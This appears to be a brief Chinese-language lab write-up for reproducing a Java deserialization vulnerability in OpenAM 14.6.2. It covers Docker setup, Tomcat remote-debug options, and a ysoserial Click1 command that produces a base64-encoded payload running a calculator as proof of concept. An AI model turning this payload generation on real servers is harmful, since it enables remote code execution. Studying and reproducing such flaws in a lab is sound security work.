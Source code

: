 ![image-20230710163007754](images/2.png)

```
docker run  -d -p 7080:8080 -p 5005:5005 --name openam openidentityplatform/openam:14.6.2
echo "127.0.0.1 localhost openam.example.com example.com">>/etc/hosts
拷贝openam.war
docker cp openam://usr/local/tomcat/webapps/openam.war ./
```

在catalina.sh中添加如下代码：
`CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5005,suspend=n,server=y"`

```
也可以vim /opt/atlassian/confluence/bin/setenv.sh

# 在 export CATALINA_OPTS 这一行上面加上如下一行：

CATALINA_OPTS="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 ${CATALINA_OPTS}"
```

# 漏洞复现

采用Click1这条链子

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Click1 "open -a Calculator" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '='
```
